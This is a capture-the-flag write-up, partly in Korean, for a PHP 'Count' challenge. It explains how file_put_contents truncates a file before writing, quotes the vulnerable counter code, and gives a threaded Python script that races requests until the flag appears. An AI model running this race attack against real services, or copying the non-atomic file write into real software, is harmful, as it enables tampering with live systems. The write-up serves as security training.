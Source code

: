 ##### Count (Web)

-----
This challenge is simple race condition in php.
php has functions called `file_get_contents` and `file_put_contents`.

`file_put_contents` function is accepts four args. (can $flags, $context args be omitted)
```c
int file_put_contents ( string $filename , mixed $data [, int $flags = 0 [, resource $context ]] )
```
This function is identical to calling fopen(), fwrite() and fclose() successively to write data to a file.

영어로 쓰다가 힘들어서 그냥 한국어로 쓴다.

`file_put_contents`에서 `flags` 인자에 따로 값을 주지 않으면 기본 값은 `0`이다.
[php 소스](https://github.com/php/php-src "php 소스")에서 `ext/standard/file.c`를 열어서 들여다보면 `flags`가 0일때 모드는 `wb` 모드이다.
즉, 기존에 abc라는 파일이 있고 `file_put_contents`로 `file_put_contents('abc', 'asdf');` 이렇게 쓴다면
기존 abc에 있던 내용은 다 지워지고 `asdf`라는 내용이 들어간다.

이 문제는 이러한 특징을 이용한 레이스 컨디션 문제다.

```php
$cnt = (int)file_get_contents('cnt-file');

if($cnt == 30) {
    $cnt = 10;
}

$cnt = $cnt + 1;
file_put_contents('cnt-file' $cnt);

if($cnt == 1) {
    die($flag);
}
```
위 소스는 문제 소스중 일부분이다.
`$cnt`의 초기값은 5다. (cnt-file에 있는 값이 5)

새로고침할 때마다 `$cnt`가 1씩 증가하고 증가한 값을 cnt-file에 쓴다.
그리고 증가하다가 30이 되면 10으로 초기화한다.

위에서 설명한 `file_put_contents`의 특징을 모르는 상태라면 말도 안되는 코드라고 생각할 수 있다.
하지만 이제 `file_put_contents`의 특징을 알기 때문에 `file_put_contents`로 값을 쓸 때 잠깐동안 지워지는 그 순간을 노리면 된다.

exploit.py

```python
import requests
import threading
# made by munsiwoo

def request(sandbox) :
	global response
	uri = 'http://game.withphp.com/ouya/sandbox/' + sandbox
	response = requests.get(uri).text

if __name__ == '__main__' :
	sandbox = '80e30ab2318c6a531cdde54c009a54ca/'
	response = ''

	while True :
		threading.Thread(target=request, args=(sandbox,)).start()
		if(response.find('Sunrin{') != -1) : # flag format is Sunrin{...}
			print(response)
			break

	print('End')

```
